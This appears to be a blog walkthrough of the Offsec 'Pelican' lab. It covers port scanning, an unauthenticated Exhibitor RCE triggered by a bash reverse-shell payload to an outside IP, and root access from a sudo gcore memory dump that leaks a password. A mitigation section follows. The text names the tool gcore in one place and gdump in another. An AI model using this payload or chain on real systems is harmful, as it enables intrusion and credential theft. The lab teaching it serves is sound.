






+++
draft = false
date = 2025-11-29T11:00:00+01:00
title = "Pelican Offsec Walkthrough"
description = "Full exploitation of the Pelican target: Exhibitor unauthenticated RCE, ZooKeeper misconfig, memory-dump privilege escalation, and root compromise."
slug = "pelican-walkthrough"
authors = ["Dennis Drebitca"]
tags = [
    "Exhibitor",
    "Exhibitor Unauthenticated RCE",
    "Apache-ZooKeeper",
    "gdump",
    "SUID",
    "password-store",
    "Memory Dump",
    "RCE",
    "ExploitDB-48654",
]
categories = []
externalLink = ""
series = ["Offsec"]
+++


## Pelican OffSec Walkthrough


This walkthrough covers the full exploitation path for the Pelican target, from initial reconnaissance to root compromise and post-exploitation considerations.  
We focus on service enumeration, misconfigurations, abusing an exposed Exhibitor instance, credential extraction through memory dumping, and privilege escalation.


### 1. Reconnaissance

First, a ping is made to verify connection with the machine:


After confirming the host is reachable, an aggressive full-port SYN scan is executed to enumerate every exposed TCP service:
```sh
sudo nmap -sS -T5 -vvv -p- $tgt -Pn -oG nmap_inicial
```

Where the parameters mean:

- -sS: SYN scan (stealthy and fast)
- -T5: Maximum speed (aggressive; may cause packet drops in real environments)
- -vvv: Verbose output
- -p-: Scan all 65,535 ports
- -Pn: Disable host discovery; assume the host is up
- -oG: Output in greppable format

The scan reveals multiple open ports:


Next, a targeted service and version scan is run only on the discovered ports:
```sh
sudo nmap -sCV -vvv -p22,139,445,631,2181,2222,8080,8081,34051 $tgt -oN nmap_exhaustive
```

And their parameters:

- -sCV: Run default scripts + version detection
- -vvv: Maximum verbosity
- -p: Only scan the open ports detected previously
- -oN: Output in normal readable format

Result:


Interesting findings:

- CUPS (631) – occasionally misconfigured, sometimes leaks print jobs or credentials.  
- Apache ZooKeeper (2181) – when exposed, often allows unauthenticated operations.  
- Exhibitor (8081) – a ZooKeeper management interface. If left unauthenticated, it is known to be exploitable.

Navigating to port 8081 shows the Exhibitor dashboard:



### 2. Exploitation

The unauthenticated Exhibitor panel is vulnerable to remote code execution as documented here:

https://www.exploit-db.com/exploits/48654

This exploit works because Exhibitor allows modification of ZooKeeper configuration fields.  
When these fields are saved, certain fields are *executed* by the system — leading directly to RCE.

A reverse shell payload is injected into a configuration field:
```sh
$(bash -c 'bash -i >& /dev/tcp/192.168.45.177/1234 0>&1')
```
We place this payload into one of the editable fields and click Save.  
Once Exhibitor reloads the configuration, the system executes the payload and triggers our reverse shell listener.



Complete payload example:


It worked — reverse shell obtained as charles:



Initial foothold secured.

### 3. Privilege Escalation

After stabilizing the shell, enumeration tools (linpeas, pspy) are executed.  
`linpeas` reveals an interesting sudo entry:



We can run:
```sh
sudo /bin/gcore
```

This binary allows privileged users to dump the memory of another process — which is a powerful primitive when misconfigured.

Additionally, a strange SUID binary named password-store is found:


This hints that some automated process is handling or storing credentials in memory — a prime target for dumping.

To identify relevant running processes, `pspy` is used:



We observe that a process related to the password-store or authentication runs with PID 494.  

Since we can dump arbitrary process memory via `sudo gcore`, we extract it:

```sh
sudo /bin/gcore -a -o output.txt 494
```

This produces a large ELF core dump. We extract readable strings:

```sh
strings output.txt.494 > output_cleaned.txt
```


Then search for password-like values inside:



A valid root password is found embedded in the dump.  
This confirms the high-impact misconfiguration: sensitive credentials stored in memory + unrestricted memory dump tool = privilege escalation.

Switch to root:

```sh
su root
```

Root access achieved — full compromise. PWNED :)


### 4. Attack Mitigation

Below is an expanded, actionable mitigation guide covering each exploited weakness:

#### 1. Remove or secure Exhibitor
Exhibitor must never be exposed without authentication.  
Mitigations:

- Enable basic authentication or reverse proxy with access controls.
- Restrict access to `localhost` or internal VLAN only.
- Use firewall rules to block external access:
  - Allow only admin IPs.
  - Block port 8081 from the Internet entirely.
- Keep Exhibitor and ZooKeeper patched.

#### 2. Harden ZooKeeper
ZooKeeper should not run publicly accessible:

- Disable the admin API where possible.
- Bind to 127.0.0.1.
- Use ACLs to restrict operations.
- Enable TLS and SASL authentication.

#### 3. Restrict sudo permissions
Granting unrestricted sudo access to memory-dump tools is dangerous.

- Remove `/bin/gdump` from sudoers unless absolutely necessary.
- Use granular sudo rules (e.g., restrict by user/group).
- Consider replacing gdump with a safer diagnostic tool that cannot dump arbitrary processes.

#### 4. Remove or sandbox sensitive SUID binaries
The `password-store` SUID binary is a major risk.

- Remove SUID bit unless essential.
- Replace custom password-handling scripts with secure, audited alternatives.
- Apply AppArmor/SELinux confinement.

#### 5. Avoid storing plaintext passwords in memory
This is often the root cause of privilege escalation.

- Use hashed or tokenized credentials.
- If a process must temporarily store sensitive material, use secure memory management (mlock, clearing after use).
- Keep secrets in secure vaults instead of internal scripts.